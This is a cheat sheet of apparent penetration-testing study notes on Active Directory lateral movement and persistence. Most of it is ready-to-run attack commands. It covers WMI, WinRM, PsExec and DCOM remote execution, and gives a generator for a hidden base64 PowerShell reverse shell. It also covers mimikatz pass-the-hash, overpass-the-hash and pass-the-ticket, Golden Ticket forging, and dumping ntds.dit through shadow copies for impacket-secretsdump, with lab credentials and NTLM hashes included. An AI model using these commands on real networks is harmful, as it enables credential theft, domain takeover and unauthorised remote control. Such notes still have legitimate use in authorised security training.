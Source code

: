 # AD Lateral Movement Techniques
- all mimikatz run this : ``` privilege::debug ``` to do sussy thing
- spawn cmd inside mimikatz : ``` misc::cmd ```
- Some Ticket may req admin right to access (read)
## WMI 
- Remote Procedure Calls (port 135)
- Req target host credential & that user admininistrator local group in target
- deprecated in realworld
- not restricted by UAC remote restriction for non-domain joined machines 
- Works in cmd & pwsh
### Cmd 
- Dont have direct output 
- Launch calculator remotely  ``` wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc" ```
### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Prep Cim Session
   ```
        $options = New-CimSessionOption -Protocol DCOM
        $session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options // modify ip to new victim ip
        $command = 'calc';  // modify this to any rev shell or command
    ```
3. Prep Powershell Base64 Rev Shell
   ``` 
        import sys
        import base64

        payload = {reference https://www.revshells.com/ PowerShell #2 starting from "client....}

        cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

        print(cmd)
    ```
4. Run CIM
    ``` 
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
    ``` 

## WinRM
- WS-Management Protocol (xml messages w/ http&https)
- port 5986
- Req Administrators or Remote Management Users Group on target host
### Cmd
- Have output
- ``` winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami" ``` 

### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Start session 
   ``` 
    New-PSSession -ComputerName {Target IP} -Credential $credential
    Enter-PSSession 1 // no need nc
   ```

## PsExec
- Require ADMIN$ share in SMB
- Require that user is admin local group of that machine
- Require file & printer sharing turned on
1. Exec ``` ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd ```

## Pass the hash
- With NTLM authN services only | Kerberos authN NOT WORK!!
- Abuse SMB again
- Run in kali ``` /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@{Target ip} ```

## Overpass the hash
- Passing NTLM generated ticket (TGT) for Kerberos service | Not for NTLM services!!!
1. Run as different user for any exe e.g. notepad (shift right click)
2. Get NTLM ``` mimi> sekurlsa::logonpasswords ``` 
3. Spawn shell of that user``` sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell ```
4. Turn NTLM to Kerberos ticket by generating when access netw share ``` net use \\files04 ```
5. Check the ticket ``` klist ```
6. Spawn shell in victim ``` .\PsExec.exe \\files04 cmd ```

## Pass the ticket
- Passing NTLM ticket to get TGS for Kerberos service | Not for NTLM services!!! 
- More flexibility (TGS > TGT)
1. Export all TGT/TGS from memory ``` mimi> sekurlsa::tickets /export ```
2. Find all ticket and select the one we want ``` pwsh> dir *.kirbi ``` (remember same directory as mimikatz.exe) 
   - our target have record in Group 2 - T... G... S...
   - e.g. ```[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi ``` means dave = the user we want to impersnate and web04 is domain name
3. Inject to klist ``` kerberos::ptt {that kirbi file}```
4. Run as admin shell & access the service

## DCOM
- Distributed Component Object Model & abusing Microsoft Management Console COM app
- Old tech
- Port 135 RPC
- Req local admin
1. Prepare DCOM obj``` $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.177.72")) ```
2. Execute ``` $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"{commands e.g. rev shell}","7") ``` (can edit to other shell)

# AD Persistence
## Golden Ticket
- Create self-made custom TGT
- Create a TGT stating that a non-privileged user is a member of the Domain Admins group
-  krbtgt account password is not automatically changed
-  Require krbtgt password (NTLM hashed)
1. dump the list if have kerberos pwd ``` lsadump::lsa /patch ``` Get domain id here (S-1-5-xxxxx) & NTLM hash of krbtgt
2. remove all existing tickets ``` kerberos::purge ``` 
3. Gen golden ticket ``` kerberos::golden /user:jen /domain:corp.com /sid:{domain} /krbtgt:{krbtgt ntlm hash} /ptt ```
4. Run psexec to lateral movement ``` ./PsExec.exe \\dc1 cmd.exe ```

## Shadow Copies
- Abusing Microsoft backup tech: Volume Shadow Service (Which backup AD database)
- Req Admin in Domain controller
- Start in Domain Controller (with CMD):
  1. Query all shadow copies ``` vshadow.exe -nw -p  C: ``` (Get the shadow copy device name for step 2)
  2. Copy the ntds.dit to DC directory``` copy {shadow copy device name}\windows\ntds\ntds.dit c:\ntds.dit.bak ```
  3. Save to system hive ``` reg.exe save hklm\system c:\system.bak ```
  4. Copy the 2 files to kali (ntds.dit.bak & system.bak)
  5. Use Kali : ``` impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL ``` 
  6. (Optional) Can use pass the hash to get shell 


# How distinguish NLTM vs Kerberos service?
1. Use tools like Mimikatz to dump the cached credentials and look for Kerberos tickets.
2. Check the type of tickets being used when accessing a service. For example, if you see TGTs (Ticket Granting Tickets) or TGSs (Ticket Granting Services), it indicates Kerberos authentication.
3. if you have NTLM hashes and are accessing services using NTLM authentication, it's likely that NTLM is being used.